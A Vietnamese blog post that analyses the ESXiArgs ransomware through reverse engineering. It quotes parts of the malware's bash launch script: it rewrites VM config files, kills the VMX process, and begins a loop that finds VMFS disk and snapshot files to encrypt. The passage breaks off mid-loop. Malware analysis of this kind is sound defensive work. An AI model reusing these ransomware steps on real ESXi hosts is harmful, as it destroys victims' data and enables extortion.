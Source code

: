 ```yaml
---
title: "Phân tích mã độc ESXiArgs"
meta_title: ""
description: "Học cách hoạt động của ransomware ESXiArgs bằng cách dịch ngược nó"
date: 2024-04-01
image: "/images/esxiargs/ghidra.png"
categories: ["An toàn thông tin", "Phần mềm cấp thấp"]
author: "Nguyễn Bình Nam"
tags: ["Dịch ngược", "Phân tích mã độc"]
draft: false
---
```


Học cách hoạt động của ransomware ESXiArgs bằng cách dịch ngược nó.

Năm vừa qua có xảy ra 1 vụ tấn công ransomware gọi là **ESXiArgs**. Vũ tấn công này đã làm mã hóa hàng trăm các máy ảo VMware khác nhau. Và mình quyết định là sẽ thử sức dịch ngược và phân tích mã độc này để xem nó hoạt động thế nào.

> Note: Mẫu mã độc này được lấy từ [forum bleepingcomputer](https://www.bleepingcomputer.com/forums/t/782193/esxi-ransomware-help-and-support-topic-esxiargs-args-extension/page-14#entry5470686)

## Script chạy

Mình sẽ bắt đầu bằng phân tích script chạy mã đọc trước:

```bash
## CHANGE CONFIG

for config_file in $(esxcli vm process list | grep "Config File" | awk '{print $3}'); do
  echo "FIND CONFIG: $config_file"
  sed -i -e 's/.vmdk/1.vmdk/g' -e 's/.vswp/1.vswp/g' "$config_file"
done
```

Đoạn code này sẽ tìm các file config và đổi các file `vmdk` sang file `vswp`. Ở đây cũng ko có gì quá thú vị về mặt phân tích.

Trong đoạn tiếp theo, script này sẽ dừng quá trình tên là `VMX`:

```bash
## STOP VMX
echo "KILL VMX"
kill -9 $(ps | grep vmx | awk '{print $2}')
```

Quá trình `VMX` là quá trình quản lý các thiết bị I/O (Input/Output). Nó cũng hỗ trợ việc giao tiếp giữa interface người dùng, quản lý snapshot của máy ảo và console remote

Đoạn tiếp theo của script là đoạn *mã hóa*:

```bash
## ENCRYPT

chmod +x $CLEAN_DIR/encrypt

for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
  echo "START VOLUME: $volume"
  IFS=$'\n'
  for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
      if [[ -f "$file_e" ]]; then
        size_kb=$(du -k $file_e | awk '{print $1}')
        if [[ $size_kb -eq 0 ]]; then
          size_kb=1
        fi
```